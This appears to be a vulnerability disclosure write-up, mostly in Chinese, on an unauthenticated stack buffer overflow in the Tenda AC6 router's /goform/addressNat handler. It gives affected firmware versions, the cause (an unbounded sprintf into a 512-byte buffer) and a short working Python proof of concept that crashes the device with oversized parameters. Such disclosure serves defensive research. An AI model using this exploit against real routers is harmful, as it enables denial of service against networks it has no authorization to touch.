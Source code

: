 # CVE-2023-26976_tenda_AC6_stack_overflow

## 漏洞描述

### 编号

无
CVE-2023-25234 记录了 Tenda AC500 V2.0.1.9(1307)存在此问题，Tenda AC6 V15.03.05.19(latest) 也存在该问题，但暂时无CVE编号
>CVE-2023-25234 Tenda AC500 V2.0.1.9(1307) is vulnerable to Buffer Overflow in function fromAddressNat via parameters entrys and mitInterface.

### 设备信息&固件版本号

**Tenda AC6:**
v15.03.05.09_multi ~ V15.03.05.19(latest)
goahead framework

### 漏洞类型

DoS

### 危害

可访问路由器的攻击者无需凭证即可执行远程拒绝服务攻击

## 复现流程

### 复现设备&固件

同CVE-2023-26976_tenda_AC6_stack_overflow

### 固件下载&仿真

同CVE-2023-26976_tenda_AC6_stack_overflow

### 漏洞分析

漏洞点在httpd服务中的fromAddressNat()
路由/goform/addressNat
将用户输入的`entrys/mitInterface`参数传入`v9/v8`，但使用`sprintf(s, "%s;%s", v9, v8)`时没有长度限制，又`s`为`char s[512]`，即在`sprintf()`时存在溢出
![path](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-56-28.png)
![path](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-57-06.png)
>There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.
In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![fromAddressNat](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-07-57.png)
So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

### 漏洞利用

get请求触发溢出

```python
import requests

IP = "192.168.2.199" # 路由器ip
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```

![Dos](---_Tenda_AC6_stack_overflow.assets/2023-04-10-18-11-00.png)
